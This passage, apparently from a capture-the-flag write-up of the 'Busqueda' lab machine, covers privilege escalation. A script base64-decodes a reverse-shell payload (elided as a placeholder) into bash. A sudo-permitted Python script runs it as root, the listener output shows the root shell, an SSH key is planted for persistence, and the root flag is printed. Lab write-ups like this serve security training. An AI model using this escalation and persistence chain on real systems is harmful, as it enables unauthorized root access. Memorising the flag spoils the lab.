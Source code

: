 ```sh
#!/bin/bash

/bin/echo <BASE64_REVSHELL_PAYLOAD> | /usr/bin/base64 -d | /bin/bash -i
```

Then, let's make it executable.

Finally, let's abuse our `sudo` permissions to execute it as `root`:

```sh
svc@busqueda:/tmp$ sudo "/usr/bin/python3" "/opt/scripts/system-checkup.py" "full-checkup"
```

If we check our listener:

```
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.208] 36570
root@busqueda:/tmp#
```

It caught the reverse shell!

### Stabilizing the shell

Our home folder doesn't contain a `.ssh` folder, so I'll create one. Then I'll
create a private key and I'll add the corresponding key to `authorized_keys`.
Finally I'll connect over SSH to Busqueda. This way, I'll have a much more
stable shell.

## System enumeration

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
root@busqueda:~# cat "/root/root.txt"
```

```
f1ce7cfa47de5bc95bbbe023750c2a63
```

# Afterwords

